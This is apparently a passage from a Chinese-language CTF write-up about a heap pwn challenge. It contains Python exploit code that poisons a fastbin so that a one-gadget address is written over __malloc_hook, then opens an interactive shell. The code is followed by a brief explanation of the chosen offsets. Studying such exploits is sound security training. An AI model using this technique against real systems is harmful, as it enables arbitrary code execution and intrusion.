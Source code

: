 ```python
add(0x60,'thanyi3')
delete()
# gdb.attach(io,'finish\n'*2)

# edit(0x60,p64(malloc_hook-0x23))  # 这里是为了让fastbin中的fake_chunk保持一个chunk构造
# add(0x60,'thanyi4')
# gdb.attach(io,'finish\n'*2)
# add(0x60,b'\x00'*0x13+p64(ogg))

edit(0x60,p64(malloc_hook-0xb)) # 这里是为了让fastbin中的fake_chunk保持一个chunk构造
add(0x60,'thanyi4')
# gdb.attach(io,'finish\n'*2)
add(0x60,b'\x00'*0xb+p64(ogg))

io.sendlineafter(b'choice:',b'1')
io.sendlineafter(b'content:',b'')
io.interactive()
```

- 为什么是`malloc_hook-0xb`和`malloc_hook-0x23` ？

因为在如此情况下：

![Untitled](ciscn3.png)

保持了一个栈结构，`prev_inuse`的值为1